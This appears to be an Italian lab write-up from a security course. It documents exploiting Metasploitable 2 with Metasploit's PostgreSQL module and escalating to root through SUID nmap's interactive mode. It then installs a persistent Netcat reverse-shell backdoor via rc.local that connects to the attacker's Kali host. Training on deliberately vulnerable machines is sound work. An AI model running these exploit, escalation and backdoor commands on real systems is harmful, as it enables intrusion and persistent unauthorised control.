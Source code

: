 # Consegna S7/L3: Ottenere una Shell Root con Exploit PostgreSQL

## 📝 **Descrizione del progetto**
In questa esercitazione abbiamo utilizzato l'exploit **PostgreSQL Payload** di Metasploit per ottenere una shell con privilegi limitati su un sistema vulnerabile (**Metasploitable 2**). Successivamente, abbiamo sfruttato il binario `nmap` con **bit SUID** attivo per eseguire manualmente un'escalation di privilegi ed ottenere **root** sul sistema.

L'obiettivo è stato raggiunto attraverso un approccio sistematico e ben documentato che include:
- Configurazione dell'exploit PostgreSQL per ottenere una sessione iniziale Meterpreter.
- Verifica della presenza di binari vulnerabili con il bit SUID attivo.
- Escalation manuale a root sfruttando `nmap` in modalità interattiva.
- Installazione di una **backdoor persistente** con Netcat compatibile con sistemi a **32 bit**, forzando l'interfaccia corretta per comunicare con Kali Linux.

---

## 📋 **Passaggi seguiti**

### **1. Configurazione iniziale**
#### Verifica della connessione con Metasploitable
- Identificazione dell'IP della macchina target (**Metasploitable**):
  ```bash
  nmap -sn 192.168.50.0/24
  ```
- IP identificati:
  - **Kali Linux (attaccante):** 192.168.50.2
  - **Metasploitable (target):** 192.168.50.3

### **2. Configurazione dell'exploit PostgreSQL**
Per ottenere una sessione Meterpreter:
```bash
msfconsole
use exploit/linux/postgres/postgres_payload
set RHOSTS 192.168.50.3
exploit
```
- **Risultato:** Abbiamo ottenuto una sessione Meterpreter come utente **postgres**.

### **3. Verifica dei privilegi e binari vulnerabili**
Dalla sessione Meterpreter, abbiamo verificato l'utente corrente e cercato binari con **bit SUID** attivo:
```bash
getuid
shell
find / -perm -4000 -type f 2>/dev/null | grep nmap
```
- **Risultato:** Trovato `nmap` con bit SUID attivo su `/usr/bin/nmap`.

### **4. Escalation di privilegi a root**
Abbiamo sfruttato manualmente `nmap` per ottenere una shell root:
1. Accedere alla modalità interattiva di nmap:
   ```bash
   /usr/bin/nmap --interactive
   ```
2. Eseguire una shell come root:
   ```bash
   !sh
   ```
3. Verifica dei privilegi:
   ```bash
   whoami
   ```
- **Risultato:** Utente elevato a **root**.

![ROOT!](./MeterpreterOK.png)

### **5. Installazione della backdoor persistente con Netcat**
Per ottenere una connessione persistente root su ogni avvio del sistema target, configurando correttamente la connessione verso Kali Linux:
1. Creazione dello script di backdoor:
   ```bash
   echo '#!/bin/bash' > /etc/backdoor_nc.sh
   echo 'nc -e /bin/bash -s 192.168.50.3 192.168.50.2 4444' >> /etc/backdoor_nc.sh
   chmod +x /etc/backdoor_nc.sh
   ```
   - **Spiegazione:**
     - `-e /bin/bash`: Esegue la shell.
     - `-s 192.168.50.3`: Forza l'interfaccia IP della macchina target (Metasploitable).
     - `192.168.50.2 4444`: Invio della connessione verso Kali Linux.

2. Aggiunta della backdoor all'avvio del sistema tramite `rc.local`:
   ```bash
   echo '/etc/backdoor_nc.sh &' >> /etc/rc.local
   chmod +x /etc/rc.local
   ```

3. Verifica del contenuto di `rc.local`:
   ```bash
   cat /etc/rc.local
   ```
- **Risultato:** La backdoor verrà eseguita automaticamente ad ogni avvio del sistema, aprendo una connessione Netcat verso Kali Linux sulla porta `4444` utilizzando l'interfaccia IP corretta.

---

## 🎯 **Risultati ottenuti**
- **Accesso iniziale:** Sessione Meterpreter come utente `postgres`.
- **Escalation di privilegi:** Eseguita con successo sfruttando `nmap` con bit SUID.
- **Privilegi finali:** Shell root sul sistema target.
- **Backdoor persistente:** Configurata tramite Netcat per una connessione automatica ad ogni avvio verso l'IP di Kali Linux utilizzando `eth1`.

---

## 🛠️ **Strumenti utilizzati**
- **Metasploit Framework:** Per lanciare l'exploit PostgreSQL e ottenere l'accesso iniziale.
- **Nmap (SUID):** Sfruttato manualmente per ottenere root.
- **Linux Shell:** Per l'esecuzione di comandi manuali post-escalation.
- **Netcat:** Utilizzato per creare una backdoor persistente configurata per l'interfaccia corretta.

---

## 📌 **Considerazioni finali**
Questa esercitazione ha dimostrato l'importanza di combinare strumenti automatizzati (come Metasploit) con tecniche manuali per sfruttare vulnerabilità note. L'escalation di privilegi tramite `nmap` evidenzia come l'errata configurazione dei permessi possa essere sfruttata per ottenere il controllo completo di un sistema target.

La backdoor persistente con Netcat consente di mantenere l'accesso root in modo stabile e automatico, semplificando la fase post-exploitation e risolvendo problematiche legate alle interfacce multiple.

